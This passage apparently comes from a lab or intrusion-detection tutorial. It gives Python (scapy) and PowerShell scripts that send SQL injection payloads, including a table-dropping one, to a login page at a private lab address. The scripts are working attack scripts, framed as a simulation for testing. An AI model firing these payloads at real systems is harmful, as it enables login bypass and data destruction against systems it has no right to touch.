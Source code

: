 #### 3. HTTP Attack Patterns

**SQL Injection Attempts:**

```python
# sql_injection.py
from scapy.all import *
import urllib.parse

target = "192.168.100.1"
iface = "Ethernet"

# SQL injection payloads
payloads = [
    "' OR '1'='1",
    "admin'--",
    "1' OR 1=1--",
    "'; DROP TABLE users--"
]

print("Simulating SQL injection attempts...")

for payload in payloads:
    encoded = urllib.parse.quote(payload)
    http_request = f"GET /login?user={encoded} HTTP/1.0\r\n\r\n"
    
    packet = IP(dst=target)/TCP(dport=80, flags="PA")/Raw(load=http_request)
    send(packet, iface=iface, verbose=0)
    print(f"Sent: {payload}")
    time.sleep(1)

print("Done!")
```

**Using PowerShell:**

```powershell
# sql_injection.ps1
$target = "http://192.168.100.1/login"
$payloads = @(
    "' OR '1'='1",
    "admin'--",
    "1' OR 1=1--",
    "'; DROP TABLE users--"
)

foreach ($payload in $payloads) {
    $url = "$target?user=$([uri]::EscapeDataString($payload))"
    try {
        Invoke-WebRequest -Uri $url -TimeoutSec 2
    } catch {
        Write-Host "Sent SQL injection: $payload"
    }
    Start-Sleep -Seconds 1
}
```
